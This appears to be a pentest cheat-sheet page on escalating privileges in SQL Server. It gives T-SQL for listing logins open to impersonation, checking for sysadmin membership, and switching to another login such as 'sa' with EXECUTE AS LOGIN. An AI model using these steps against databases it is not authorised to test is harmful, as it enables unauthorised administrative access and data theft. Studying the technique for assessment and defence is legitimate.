 -- -
You can impersonate other users on the db depending on the permissions your user has. For example, a sysadmin could impersonate anyone in the db.
### Identify Users We Can Impersonate
```mysql
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
```
### Verify Current User & Role
```mysql
# if output is 1, you have sysadmin privs
# if output is 0, you don't have sysadmin privs, but you may be able to impersonate a user that does. 
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```
### Impersonate another user
```mysql
EXECUTE AS LOGIN = '<user>'
EXECUTE AS LOGIN = 'sa'

# revert back
REVERT
```